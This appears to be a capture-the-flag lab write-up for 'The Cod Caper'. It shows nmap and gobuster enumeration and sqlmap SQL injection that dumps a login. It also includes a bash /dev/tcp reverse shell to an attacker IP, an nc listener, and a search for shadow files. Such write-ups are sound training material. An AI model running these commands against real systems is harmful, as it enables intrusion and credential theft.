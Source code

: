 # The Cod Caper


<details>
  <summary>Host Enumeration</summary>

### Host Enumeration

The first step is to see what ports and services are running on the target machine.

**🔹 Recommended tool:** `nmap`

#### Useful flags:

- `-p`  
  Used to specify which port to analyze. Can also specify a range of ports, e.g. `-p 1-1000`.

- `-sC`  
  Runs default scripts on the port — useful for basic analysis of the service running on a port.

- `-A`  
  Aggressive mode — goes all out to gather as much information as possible.


---

```bash
nmap -sCV 10.10.108.49
```

``Output``

```java
Nmap scan report for 10.10.108.49
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.62 seconds
```

![image](https://github.com/user-attachments/assets/9ce2b1f0-4d29-4579-8124-88b380c49470)




  
</details>










<details>
  <summary>Web Enumeration</summary>


### Web Server Enumeration

Since the only services running are **SSH** and **Apache**, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

**🔹 Recommended tool:** `gobuster`

#### Useful flags:

- `-x`  
  Used to specify file extensions, e.g. `"php,txt,html"`.

- `--url`  
  Used to specify which URL to enumerate.

- `--wordlist`  
  Used to specify the wordlist that is appended to the URL path, e.g.:



---

```
gobuster dir -u http://10.10.108.49/ -w /home/kali/Downloads/wordlists/SecLists/Discovery/Web-Content/big.txt -x html,php,txt,bak -t 30
```

![image](https://github.com/user-attachments/assets/295ae41e-c3ef-4b2c-9536-160696262b01)




![image](https://github.com/user-attachments/assets/ba89a246-398d-4344-971d-664215e83f22)

![image](https://github.com/user-attachments/assets/d50560fb-708a-4bb3-990a-4c666232e558)


  
</details>





<details>
  <summary>Web Exploitation</summary>


### SQL Injection Testing

The admin page seems to give us a login form. In situations like this, it is always worth checking for **low-hanging fruit**. In the case of login forms, one of the first things to check for is **SQL Injection**.

**🔹 Recommended tool:** `sqlmap`

#### Useful flags:

- `-u`  
  Specifies which URL to attack.

- `--forms`  
  Automatically selects parameters from `<form>` elements on the page.

- `--dump`  
  Used to retrieve data from the database once SQL Injection is found.

- `-a`  
  Grabs just about everything from the database.



---


```
sqlmap -u http://Target_IP/administrator.php --dbs --forms
```

![image](https://github.com/user-attachments/assets/45c686fe-e118-42fe-a8ee-34d3ab3c3223)

```
sqlmap -r Request.txt -D users --tables users --dump
```

```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

![image](https://github.com/user-attachments/assets/2b9a5828-8faf-4bc8-9710-ad60c378b543)


![image](https://github.com/user-attachments/assets/7a52fbba-3378-4f87-ad45-47bffc08b505)

---

> after login

![image](https://github.com/user-attachments/assets/75a75609-2ec9-425d-8a12-a7899bf04bc5)


  
</details>










<details>
  <summary>Command Execution</summary>


### Post-Exploitation: Gaining Access

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account. Let's run a few test commands, and then try to gain access!

---

#### Method 1: `nc` Reverse Shell

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell.

➡ Some great places to find reverse shell payloads:  
- [HighOnCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

After this, you will need to do additional enumeration to find **pingu's SSH key** or **hidden password**.

---

#### Method 2: Hidden Passwords

Assuming my father hasn't modified the machine since he took over my old PC, I should still have my hidden password stored somewhere — I don’t recall though, so you'll have to find it!

**🔹 Recommended tool:** `find`  
Allows you to search for files a specific user owns.


---


```
bash -c 'bash -i >& /dev/tcp/10.8.47.102/4444 0>&1'
```

```
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/51333772-af4e-41db-b561-9454386a80d4)

---

```
find / 2>>/dev/null | grep -i shadow
```


![image](https://github.com/user-attachments/assets/567b9ed5-4647-4b76-874a-76da2f133727)







  
</details>














































